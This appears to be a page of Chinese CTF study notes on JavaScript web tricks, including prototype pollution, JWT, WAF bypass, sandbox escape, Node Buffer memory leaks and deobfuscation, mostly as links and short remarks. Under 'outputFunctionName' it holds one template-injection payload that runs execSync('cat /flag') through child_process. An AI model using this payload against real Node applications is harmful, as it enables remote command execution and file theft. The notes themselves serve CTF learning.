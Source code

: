 # 原型链污染
	- [[CTFWEB/JS/原型链污染]]
- # 在HTTP请求中伪造整个HTTP请求
	- ((63c7fc34-474b-48bd-a4f8-5c5a68188c89))
- # outputFunctionName
	- `a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//`
- # 大小写转换
	- https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
- # 乱码加密
  id:: 636665b6-16ed-4f0a-b6fc-46c5756e5222
	- 题目：NaNNaNNaNNaN-Batman
	  
	  js 中的控制字符代表 js 代码，可以被 js 自动转义
- # Buffer()
	- 在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。
- # JWT
  id:: 62efd884-36bd-4729-a628-6c94b3f1b08b
	- [[CTFWEB/JWT]]
- # 绕过
	- [[CTFWEB/JS/WAF绕过]]
- # 沙盒逃逸
	- [[CTFWEB/JS/沙盒逃逸]]
- # 注释
	- JS 也可以使用 html 的注释`<!-- -->`
- # 解混淆
	- https://blog.csdn.net/weixin_43411585/article/details/123437953
	- https://blog.csdn.net/freeking101/article/details/121668637
-